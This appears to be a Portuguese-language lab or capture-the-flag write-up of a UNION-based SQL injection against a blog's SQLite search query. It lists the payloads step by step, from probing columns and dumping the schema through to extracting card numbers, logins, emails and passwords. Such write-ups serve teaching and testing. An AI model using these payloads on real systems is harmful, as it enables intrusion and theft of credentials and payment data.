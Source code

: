 ![](assets/2023-09-04-00-02-02.png)

Com a informação do SQL é possível compor um ataque que seja adicionado à cláusula where da query:

- A query utilizada para trazer os posts, exibida pela página de debug:

  - `SELECT * FROM posts WHERE Content LIKE "%"%";`

- A query que iremos buscar:

  - `SELECT * FROM posts WHERE Content LIKE "%X" union select 1, 2 --%";`

Para chegarmos nisso, precisamos manipular o campo de texto progressivamente até descobrirmos a entrada que busca os dados no SQLite e reflete no HTML da página, nos campos com o título e com o texto de cada post do blog:

- `X" union select 1, 2 --`
- `X" union select name, sql from sqlite_master where type='table' --`
- `X" union select name || ': ' || card, password from secrets --`
- `X" union select login || ': ' || email, password from logins --`
